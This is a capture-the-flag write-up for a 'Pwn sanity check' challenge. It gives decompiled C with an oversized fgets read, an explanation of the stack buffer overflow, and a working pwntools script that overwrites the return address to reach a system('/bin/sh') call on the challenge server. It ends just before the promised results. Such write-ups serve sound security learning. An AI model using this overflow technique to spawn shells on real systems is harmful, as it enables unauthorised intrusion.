

# Pwn sanity check
### submmited by revolution

```
This should take about 1337 seconds to solve.
nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
```

```c
int vuln()
{
  char s[60]; // [rsp+0h] [rbp-40h] BYREF
  int v2; // [rsp+3Ch] [rbp-4h]

  puts("tell me a joke");
  fgets(s, 256, stdin);
  if ( v2 != -559038242 )
    return puts("will this work?");
  puts("very good, here is a shell for you. ");
  return shell();
}

int shell()
{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  return puts("If this is not good enough, you will just have to try harder :)");
}

int __fastcall win(int a1, int a2)
{
  int result; // eax

  result = puts("you made it to win land, no free handouts this time, try harder");
  if ( a1 == -559038737 )
  {
    result = puts("one down, one to go!");
    if ( a2 == 322420958 )
    {
      puts("2/2 bro good job");
      system("/bin/sh");
      exit(0);
    }
  }
  return result;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  alarm(0xAu);
  vuln();
  return 0;
}
```

This challenge was simply an overwrite of the return address of vuln via bufferoverflow resulting from the rediculios amount of charaters provided as the parameter for the fgets method, this dangerous amount (256) is not depended on the size of the buffer itself which is only 60 and as the decompiled code suggests its location on the stack is rbp - 0x40 (64 in decimal) so the payload is as follows: 

```python 
payload = b"A" * 64 + b"B" * 8 + new_return_addr
```

Where the A's repersenting the buffer, the B's representing the last rbp and well, the new_return_Addr kinda speeks for itself. figuring out where to redirect the code via the return address is the main issue, In order to solve this challenge one should learn to ignore all the "noise", for example the shell method which is just a troll, the unrealistic conditionals in the win function and the condition in the vuln functino which does nothing, triggering all of those will not help the challenge.

I chose to skip all the above and jump straight to the middle of the win function in the "puts("2/2 bro good job");" line, hence this exploit:

```python
from pwn import *

middle_win = p64(0x00000000004006DB)
rem = 1

if(rem):
    p = remote("dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io", 7480)
else:
    p = process("pwn_sanity_check")

print(p.recvuntil("tell me a joke").decode())
p.sendline(b"A"* 64 + b"B" * 8 + middle_win)

p.interactive()
```

and here are the results:


